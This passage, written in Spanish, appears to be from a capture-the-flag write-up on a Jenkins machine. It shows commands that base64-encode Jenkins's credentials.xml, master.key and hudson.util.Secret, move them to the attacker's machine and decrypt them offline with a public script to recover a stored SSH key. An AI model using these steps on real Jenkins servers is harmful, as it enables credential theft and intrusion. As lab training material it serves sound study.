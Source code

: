* [Jenkins Security Advisory 3314](https://www.jenkins.io/security/advisory/2024-01-24/#SECURITY-3314)

Habíamos intentado una explotación para descubrir los secretos alojados por **Jenkins** (que encontramos una llave SSH privada como credencial), peeeero uno de los archivos necesarios para el jugueteo era un binario y como el método de explotación usado (Directory Traversal) nos devolvía únicamente texto, el contenido del binario se corrompía.

PEEERO, como ya estamos dentro del sistema y tenemos acceso al alojamiento de esos archivos, podríamos intentar moverlos a nuestra máquina de atacante sin peligro de corromperlos y reintentar el descubrimiento :O

* [Accessing and dumping Jenkins credentials](https://www.codurance.com/publications/2019/05/30/accessing-and-dumping-jenkins-credentials)
* [Where's the encryption key stored in Jenkins?](https://stackoverflow.com/questions/38465270/wheres-the-encryption-key-stored-in-jenkins)

🎟️ **credentials.xml**:

```bash
base64 -w 0 /var/jenkins_home/credentials.xml
```

```bash
echo <BASE64 STRING> | base64 -d > credentials.xml
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/builder/htb591-bash-jenkins_sh-cat-credentials_xml.png" style="width: 100%;"/>

🗝️ **master.key**:

```bash
base64 -w 0 /var/jenkins_home/secrets/master.key
```

```bash
echo <BASE64 STRING> | base64 -d > master.key
```

🤐 **hudson.util.Secret**:

```bash
base64 -w 0 /var/jenkins_home/secrets/hudson.util.Secret
```

```bash
echo <BASE64 STRING> | base64 -d > hudson.util.Secret
```

Ya con los archivos, validamos integridad usando `md5sum <archivo>` en el origen y el destino, si son iguales los resultados, tamos finos.

Con la ayuda de este script (yo usé este, pero hay varios) para desencriptar el contenido del secreto:

* [github.com - gquere - jenkins_offline_decrypt](https://github.com/gquere/pwn_jenkins/blob/master/offline_decryption/jenkins_offline_decrypt.py)

Ejecutamos la instrucción tal que:

```bash
python3 jenkins_offline_decrypt.py secrets/master.key secrets/hudson.util.Secret secrets/credentials.xml
```
